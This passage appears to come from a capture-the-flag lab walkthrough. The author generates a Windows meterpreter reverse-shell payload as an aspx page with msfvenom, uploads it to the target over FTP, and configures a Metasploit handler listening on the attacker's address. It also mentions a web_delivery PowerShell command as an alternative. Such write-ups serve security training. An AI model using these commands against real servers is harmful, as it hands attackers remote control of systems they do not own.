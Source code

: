 Rather than use the existing webshell, I’ll generate an aspx page that will
return a meterpreter shell when I run it. If you did want to use the existing
webshell, there’s a module called `exploit/multi/script/web_delivery` that
will give you a PowerShell command to run in the shell (make sure you set the
right target). Check if out if you want to play with it.

I’ll continue from scratch. First I’ll build the payload:

    
    
    root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx > met_rev_443.aspx
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload    
    [-] No arch selected, selecting arch: x86 from the payload                                
    No encoder or badchars specified, outputting raw payload                                  
    Payload size: 341 bytes                                                                   
    Final size of aspx file: 2838 bytes   
    

Upload it over ftp:

    
    
    ftp> put met_rev_443.aspx
    local: met_rev_443.aspx remote: met_rev_443.aspx
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    2874 bytes sent in 0.00 secs (5.3532 MB/s)
    

I’ll open Metasploit and start the `exploit/multi/handler`, which provides a
listener for callbacks generated outside of Metasploit:

    
    
    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) >
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set lhost tun0
    lhost => 10.10.14.14
    msf5 exploit(multi/handler) > set lport 443
    lport => 443
    
    msf5 exploit(multi/handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port
    